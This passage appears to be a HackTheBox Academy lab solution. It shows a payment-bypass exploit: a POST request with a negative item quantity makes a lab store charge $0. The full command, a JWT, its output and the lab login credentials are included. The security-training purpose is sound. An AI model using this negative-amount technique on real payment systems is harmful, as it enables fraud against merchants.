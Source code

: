 Code: json

```json
{
  "cardId": "6515120a25456d39eeea4eaf",
  "items": [
    {
      "name": "1000",
      "category": "cubes",
      "price": 100,
      "amount": 1
    },
    {
      "name": "1000",
      "category": "cubes",
      "price": 100,
      "amount": -1
    }
  ]
}
```

Students need to send a POST request to the `/api/payment/charge` endpoint (mapped to `src/src/controllers/payment-controllers.js`, lines 45-230), passing in its body the JSON data for the two purchases and the card ID:

Code: shell

```shell
echo -n '{"cardId":"6515120a25456d39eeea4eaf","items":[{"name":"1000","category":"cubes","price":100,"amount":1},{"name":"1000","category":"cubes","price":100,"amount":-1}]}' | http POST http://STMIP:STMPO/api/payment/charge --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-yeqp4pid9t]─[~]
└──╼ [★]$ echo -n '{"cardId":"6515120a25456d39eeea4eaf","items":[{"name":"1000","category":"cubes","price":100,"amount":1},{"name":"1000","category":"cubes","price":100,"amount":-1}]}' | http POST http://94.237.48.48:47552/api/payment/charge --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTg4MjIzNywiZXhwIjoxNjk1OTY4NjM3fQ.9qYthhT41PoLz5BxqmaApopuNXU7gYxgE4KhIXoUIZ4" | jq

{
    "message": "Successfully processed payment for a total of $0."
}
```

Subsequently, after visiting the root webpage of the spawned target machine and signing in using the credentials `htb-student@academy.htb:HTB_@cademy_student!`, students will have enough cubes to unlock the "Introduction to Academy" module:

![[HTB Solutions/CWEE/z. images/86daf938226decc8520b433467feec44_MD5.jpg]]
